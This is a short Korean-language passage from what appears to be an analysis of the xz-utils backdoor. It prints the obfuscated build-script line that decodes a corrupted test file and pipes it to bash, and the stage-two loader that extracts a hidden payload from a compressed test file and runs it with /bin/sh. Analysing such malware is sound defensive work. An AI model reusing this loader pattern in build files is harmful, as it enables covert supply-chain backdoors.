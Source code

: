 이는

```bash
...
;sed rpath ../../../tests/files/bad-3-corrupt_lzma2.xz
| tr "	 \-_" " 	_\-"
| xz -d
| /bin/bash >/dev/null 2>&1;
...
```

로 끝납니다.

`| bash` 를 나오면 아래와 같은 코드를 생성합니다.

```bash
####Hello####
#��Z�.hj�
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +724)";
(xz -dc $srcdir/tests/files/good-large_compressed.lzma
|eval $i
|tail -c +31265
|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")
|xz -F raw --lzma1 -dc
|/bin/sh
####World####
```

난독화 해제 후 이는 첨부된 injected.txt로 나타납니다.

---

### == 손상된 레포지토리 ==

